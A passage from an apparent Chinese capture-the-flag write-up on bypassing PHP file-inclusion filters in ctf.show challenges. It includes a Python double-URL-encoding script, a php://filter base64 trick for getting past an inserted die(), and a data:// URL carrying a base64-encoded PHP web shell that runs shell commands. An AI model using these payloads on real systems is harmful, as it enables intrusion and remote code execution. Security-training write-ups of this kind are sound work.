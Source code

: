 文件内容前插入了 `die()`, 直接写的话后面的内容不会被执行

参考文章

[https://xz.aliyun.com/t/8163](https://xz.aliyun.com/t/8163)

[https://www.anquanke.com/post/id/202510](https://www.anquanke.com/post/id/202510)

[https://www.leavesongs.com/PENETRATION/php-filter-magic.html](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

这里我们选择 `convert.base64-decode` 过滤器

因为最后一行有 `urldecode($file)`, 我们可以通过两次 urlencode 方式来绕过 `str_replace()`

网上的在线 urlencode 无法对正常字符如 `A-Z a-z .` 等进行编码, 这里我们手写一个编码器

```python
text = 'php://filter/convert.base64-decode/resource=1.php'

new_text = ''

for i in text:
    new_text += hex(ord(i)).replace('0x', '%25')

print(new_text)
```

注意需要把 `%` 替换成 `%25`, 才能达到二次编码的效果

![20220804161703](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804161703.png)

一开始报错写入失败, 这是因为 base64 解码时是4个 bytes 一组, 前面的内容被除去特殊字符 (符号 汉字等) 后剩下来的 `phpdie` 仅有6个字符, 不满足4的整数倍

在 content 值的开头填充两个 `a` 以达到8个字符, 上传成功

![20220804161956](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804161956.png)

查看 flag

![20220804162027](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804162027.png)

## web88

```php
if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
}
```

第一眼想到的是远程文件包含, 利用 IP 长地址 (不含 `.`)

然后发现 `data://` 协议其实也能正常使用, 但是要注意编码后的 payload 不能含有 `=` 和 `+`

`=` 是为了填充数量以达到 4 字节的, 删掉也不影响解码

`http://05b928aa-ad9a-4d4a-be1e-b914ea74018e.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWzFdKTs/Pg&1=cat%20fl0g.php`

